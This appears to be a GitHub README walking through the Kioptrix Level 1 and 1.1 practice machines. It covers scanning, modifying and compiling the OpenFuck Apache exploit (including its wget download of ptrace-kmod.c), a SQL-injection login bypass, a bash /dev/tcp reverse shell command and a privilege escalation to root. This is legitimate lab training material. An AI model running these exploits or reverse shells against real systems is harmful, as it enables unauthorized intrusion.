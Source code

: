 # kioptrix-full-walkthrough
## Kioptrix Level 1

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.
>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

>enum4linux <i><b>[machine-ip]</b></i>

>dirb http://<i><b>[machine-ip]</b></i>

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for “apache 1.3.20 vulnerability”.

Search for the exploit via searchsploit
> searchsploit OpenFuck

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

<h2>Modify the exploit code:</h2>

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

> cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

> vim OpenFuck.c

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

<b>Include the openssl rc4 and md5 libraries:</b>

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

<b>Install Libraries for compiling the modified exploit code:</b>

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

>./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199806037-13dfd40c-2bd7-4bd4-b3bf-6792315bb16b.png)

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 4:
Let’s take a deeper dive by inspecting what lies in the open port i.e. <i><b>[machine-ip]</b></i>:80

<b>N.B.</b> I reinstalled the machine, ts why the ip changed.

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener; putting the script below inside the console that we just took privilege:

>bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1 (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 5:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 6:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 7:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>

